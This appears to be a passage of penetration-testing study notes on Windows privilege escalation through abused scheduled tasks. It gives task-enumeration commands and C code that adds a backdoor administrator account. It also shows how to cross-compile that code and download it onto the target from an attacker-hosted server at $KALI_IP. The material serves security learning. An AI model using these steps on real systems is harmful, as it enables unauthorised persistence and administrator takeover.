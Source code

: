 New user creation check:

```bash
net localgroup administrators
```

# Abusing Other Windows Components

## Scheduled Tasks

If you could find an automated task that runs in a higher-privileged context, you could exploit it to escalate your own privileges.

```bash
schtasks /query /fo LIST /v
Get-ScheduledTask
```

The important fields to check are:
- _Author_
- _TaskName_
- _Task To Run_
- _Run As User_
- _Next Run Time_

We can also use findstr if we want to search for something specific.

Once you find a suitable task you need to change the code with a malicious one like this:

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```

As always we compile it on kali and pass it to windows:

```bash
x86_64-w64-mingw32-gcc eseguibile.c -o eseguibile.exe

python3 -m http.server 80

cd C:\\path_dove_caricare_il_file\..

iwr -uri http://$KALI_IP/eseguibile.exe -Outfile eseguibile.exe
```
